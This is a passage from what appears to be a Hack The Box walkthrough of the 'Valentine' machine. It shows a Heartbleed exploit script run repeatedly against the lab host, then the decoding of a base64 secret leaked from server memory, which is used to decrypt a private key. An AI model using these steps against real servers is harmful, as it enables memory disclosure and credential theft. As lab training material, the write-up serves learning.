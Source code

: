 I set it to loop 100 times. Still nothing. I set it to loop 500 times and add the `-a` parameter to output to a file, so I can let it run and parse it later.
```bash
root@vmw-kali:~/htb/valantine# python heartbleed.py -a hbdump.txt -n 1000 10.10.10.79
```

The results, reveal a base64 encoded string assigned to a `$text` variable.
![htb-valantine-06](/images/htb/valentine/htb-valantine-06.png)

I decode the string.
```bash
root@vmw-kali:~/htb/valantine# echo aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
heartbleedbelievethehype
```

<p class="success">
    Secret found! <i>heartbleedbelievethehype</i>
</p>

I use the secret to decrypt the private key obtained earlier.
![htb-valantine-07](/images/htb/valentine/htb-valantine-07.png)
